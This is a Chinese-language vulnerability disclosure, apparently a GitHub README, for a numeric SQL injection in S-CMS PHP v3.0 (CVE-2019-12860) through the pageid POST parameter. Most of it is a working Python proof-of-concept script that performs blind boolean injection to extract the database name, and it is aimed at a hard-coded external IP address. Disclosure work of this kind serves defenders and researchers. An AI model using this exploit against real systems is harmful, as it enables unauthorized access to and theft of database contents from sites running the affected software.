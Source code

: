 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|S-CMS PHP v3.0存在SQL注入漏洞|2019-05-31|zhhhy|[https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) | [https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) |PHP v3.0| [CVE-2019-12860](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12860)|  

#### 漏洞概述  

> 漏洞代码位置：/js/scms.php 第182-204行,在第83行处，变量$pageid接受使用POST方式传递的pageid的值。而在第87行和第95行处，变量$pageid被直接拼接进SQL语句之中，从而产生注入。而由于是数字型注入，避免使用单引号等符号以至于绕过了防御。   

### POC实现代码如下：  

> 构造如下poc.py  

``` python
import requests
import urllib.parse

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_0123456789'

url='http://106.14.144.32:2000/js/scms.php'

def getDatabaseLength():
    print('开始爆破数据库长度。。。')
    for i in range(10):
        payload="1%0Aand%0Aif(length(database())>{},1,0)#".format(i)
        payload=urllib.parse.unquote(payload)
        data = {
            'action':'jssdk',
            'pagetype':'text',
            'pageid':payload
        }
        # print(data)
        # data = urllib.parse.unquote(data)
        # print(data)
        rs = requests.post(url=url,data=data)
        rs.encode='utf-8'
        # print(rs.text)
        if "20151019102732946.jpg" not in rs.text:
            print("数据库名的长度为：{}".format(i))
            return i

def getDatabaseName():
    print('开始获取数据库名')
    databasename = ''

    length = getDatabaseLength()
    # length = 4
    for i in range(1,length+1):
        for c in chars:
            payload='1%0Aand%0Aif(ascii(substr(database(),{},1))={},1,0)#'.format(i,ord(c))
            # print(payload)
            payload = urllib.parse.unquote(payload)
            data = {
                'action': 'jssdk',
                'pagetype': 'text',
                'pageid': payload
            }
            rs = requests.post(url=url, data=data)
            rs.encode = 'utf-8'
            # print(rs.text)
            if "20151019102732946.jpg" in rs.text:
                databasename = databasename+c
                print(databasename)

    return databasename
getDatabaseName() 
```
### 漏洞详情：[PDF版详情](POC_Details/S-CMS%20PHP%20v30存在SQL注入漏洞.pdf)